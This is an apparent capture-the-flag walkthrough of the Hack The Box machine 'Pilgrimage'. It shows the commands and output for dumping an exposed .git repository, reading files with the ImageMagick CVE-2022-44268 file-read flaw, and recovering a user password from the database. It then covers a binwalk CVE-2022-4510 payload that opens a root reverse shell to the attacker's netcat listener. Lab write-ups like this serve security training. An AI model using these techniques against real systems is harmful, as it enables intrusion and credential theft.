

---
tags:
  - hack
  - linux
---
# HTB: [Pilgrimage](http://app.hackthebox.com/machines/Pilgrimage)

## Enumerate

```console
$ sudo nmap -n -Pn -sC -sV $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-19 15:33 CST
Nmap scan report for 10.10.11.219
Host is up (0.43s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I add `pilgrimage.htb` to `/etc/hosts` and check the page:



<http://pilgrimage.htb/login.php> shows a login page.

<http://pilgrimage.htb/register.php> fails with various combinations of username/password.

Some interesting `git` files exposed via `fuff`

```text
$ ffuf -ic -w /home/e/wordlists/seclists/Discovery/Web-Content/quickhits.txt -u http://pilgrimage.htb/FUZZ -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://pilgrimage.htb/FUZZ
 :: Wordlist         : FUZZ: /home/e/wordlists/seclists/Discovery/Web-Content/quickhits.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

[Status: 200, Size: 92, Words: 9, Lines: 6, Duration: 115ms]
    * FUZZ: .git/config

[Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 108ms]
    * FUZZ: .git/HEAD

[Status: 200, Size: 195, Words: 13, Lines: 2, Duration: 90ms]
    * FUZZ: .git/logs/HEAD

[Status: 200, Size: 3768, Words: 22, Lines: 16, Duration: 100ms]
    * FUZZ: .git/index

[Status: 200, Size: 6166, Words: 1648, Lines: 172, Duration: 110ms]
    * FUZZ: login.php

[Status: 200, Size: 6173, Words: 1646, Lines: 172, Duration: 95ms]
    * FUZZ: register.php

:: Progress: [2565/2565] :: Job [1/1] :: 355 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

```text
$ curl http://pilgrimage.htb/.git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true

$ curl http://pilgrimage.htb/.git/HEAD
ref: refs/heads/master

$ curl http://pilgrimage.htb/.git/logs/HEAD 
0000000000000000000000000000000000000000 e1a40beebc7035212efdcb15476f9c994e3634a7 root <root@pilgrimage.htb> 1686132708 +1000   commit (initial): Pilgrimage image shrinking service initial commit.

$ curl http://pilgrimage.htb/.git/index -o foo
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3768  100  3768    0     0  18527      0 --:--:-- --:--:-- --:--:-- 18653

$ file foo
foo: Git index, version 2, 37 entries
```

And I guessed at this one:

```console
$ curl http://pilgrimage.htb/.git/COMMIT_EDITMSG
Pilgrimage image shrinking service initial commit.
# Please enter the commit message for your changes. Lines starting
# with '#' will be ignored, and an empty message aborts the commit.
#
# Author:    emily <emily@pilgrimage.htb>
#
# On branch master
#
# Initial commit
#
# Changes to be committed:
#       new file:   assets/bulletproof.php
#       new file:   assets/css/animate.css
#       new file:   assets/css/custom.css
#       new file:   assets/css/flex-slider.css
#       new file:   assets/css/fontawesome.css
#       new file:   assets/css/owl.css
#       new file:   assets/css/templatemo-woox-travel.css
#       new file:   assets/images/banner-04.jpg
#       new file:   assets/images/cta-bg.jpg
#       new file:   assets/js/custom.js
#       new file:   assets/js/isotope.js
#       new file:   assets/js/isotope.min.js
#       new file:   assets/js/owl-carousel.js
#       new file:   assets/js/popup.js
#       new file:   assets/js/tabs.js
#       new file:   assets/webfonts/fa-brands-400.ttf
#       new file:   assets/webfonts/fa-brands-400.woff2
#       new file:   assets/webfonts/fa-regular-400.ttf
#       new file:   assets/webfonts/fa-regular-400.woff2
#       new file:   assets/webfonts/fa-solid-900.ttf
#       new file:   assets/webfonts/fa-solid-900.woff2
#       new file:   assets/webfonts/fa-v4compatibility.ttf
#       new file:   assets/webfonts/fa-v4compatibility.woff2
#       new file:   dashboard.php
#       new file:   index.php
#       new file:   login.php
#       new file:   logout.php
#       new file:   magick
#       new file:   register.php
#       new file:   vendor/bootstrap/css/bootstrap.min.css
#       new file:   vendor/bootstrap/js/bootstrap.min.js
#       new file:   vendor/jquery/jquery.js
#       new file:   vendor/jquery/jquery.min.js
#       new file:   vendor/jquery/jquery.min.map
#       new file:   vendor/jquery/jquery.slim.js
#       new file:   vendor/jquery/jquery.slim.min.js
#       new file:   vendor/jquery/jquery.slim.min.map
#
```

The username `emily` (via the `git` commit message above) might be fruitful for brute-forcing login.

Downloaded `<http://pilgrimage.htb/magick>`:

```console
$ file magick 
magick: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9fdbc145689e0fb79cb7291203431012ae8e1911, stripped

$ ./magick -version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

A more complete view of the exposed Git repository is available by using `git-dumper`:

```console
$ git-dumper http://pilgrimage.htb/.git/ git
[-] Testing http://pilgrimage.htb/.git/HEAD [200]
[-] Testing http://pilgrimage.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://pilgrimage.htb/.gitignore [404]
[-] http://pilgrimage.htb/.gitignore responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/COMMIT_EDITMSG [200]
[-] Fetching http://pilgrimage.htb/.git/description [200]
[...]
[-] Running git checkout .

$ ls -ld git
drwxr-x--- 5 e e 4096 Nov 20 14:48 git

$ ls git
assets  dashboard.php  index.php  login.php  logout.php  magick  register.php  vendor

$ cat git/login.php
<?php
session_start();
if(isset($_SESSION['user'])) {
  header("Location: /dashboard.php");
  exit(0);
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['username'] && $_POST['password']) {
  $username = $_POST['username'];
  $password = $_POST['password'];

  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));
[...]
```

From that I see a password is stored in `/var/db/pilgrimage`.

## Exploit

There's an LFI exploit for this version of ImageMagick: <https://github.com/voidz0r/CVE-2022-44268>

Create the test payload:

```console
$ convert ~/655bbd2283d4a.png -resize 50% output.png
```

I upload `output.png` to the vulnerable service, and download the new file, `655bbd2283d4a.png`. To read the response, I have to use an ImageMagick command called `identify`, which includes the output. I can pipe it directly to `python3` to decode the hexadecimal encoding like this:

```console
$ python3 -c "print(bytes.fromhex(\"$(identify -verbose output.png |grep '^[a-f0-9]'|xargs | sed 's/ //g')\"))"
b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nsystemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:103:109::/nonexistent:/usr/sbin/nologin\nsystemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nemily:x:1000:1000:emily,,,:/home/emily:/bin/bash\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\nsshd:x:105:65534::/run/sshd:/usr/sbin/nologin\n_laurel:x:998:998::/var/log/laurel:/bin/false\n'
```

I'll try to view the database with the password:

```console
$ rm -f *png; cargo run '/var/db/pilgrimage'
    Finished dev [unoptimized + debuginfo] target(s) in 0.01s
     Running `target/debug/cve-2022-44268 /var/db/pilgrimage`

```

```console
$ python3 -c "print(bytes.fromhex(\"$(identify -verbose output.png |grep '^[a-f0-9]'|xargs | sed 's/ //g')\"))"
b'SQLite format 3\x00\x10\x00\x01\x01\x00@  \x00\x00\x00?\x00\x00\x00\x05\x00\x00\x[...]
```

I could recreate the binary version of the db and view it via `sqlite3`, but this string stands out and saves some steps:

```console
[...]0\x18\x01\x03\x17-emilyabigchonkyboi123\n\x00\x00\x00\x01\x0f\xf7\x00\x0f\xf7\x00\x00\x00\x00[...]
```

I try that password for `ssh` login:

```console
$ ssh emily@$t
The authenticity of host '10.10.11.219 (10.10.11.219)' can't be established.
ED25519 key fingerprint is SHA256:uaiHXGDnyKgs1xFxqBduddalajktO+mnpNkqx/HjsBw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.219' (ED25519) to the list of known hosts.
emily@10.10.11.219's password:
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
emily@pilgrimage:~$ cat user.txt
7a3e01[...]
```

## Escalate

As user `emily` I can see an interesting process in the `ps fauxww` listing:

```console
root         724  0.0  0.0   6816  3096 ?        Ss   06:51   0:00 /bin/bash /usr/sbin/malwarescan.sh
```

`malwarescan.sh`:

```sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

`binwalk` is itself vulnerable. I save [the exploit](https://www.exploit-db.com/exploits/51249) and prepare the payload:

```console
$ python ./x.py ./surfperson.png 10.10.16.5 443

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.

$ mv bin
bin/                 binwalk_exploit.png

$ mv binwalk_exploit.png x.png

$ scp x.png emily@${t}:
emily@10.10.11.219's password:
x.png
```

I start a `nc` listener, and copy the payload on the target to the right destination:

```console
emily@pilgrimage:~$ cp x.png /var/www/pilgrimage.htb/shrunk/
```

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.219] 46484
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
0e9969[...]
```

## Summary

Target runs a web service to resize images. It uses an ImageMagick binary on the backend which has an LFI vulnerability, <https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC>. This paired with the `git` repo being exposed at the web root (`http://$t/.git`) we can analyze `login.php` to find the name of the `sqlite` database, and use the LFI to retrieve a user password for user `emily`.

With user access, we can see a malware-scanning cron job that runs to analyze file uploads from the webservice. The scanner uses `binwalk` which itself has an exploit: <https://www.exploit-db.com/exploits/51249>. Using that exploit we can spawn a reverse shell as the `root` user.
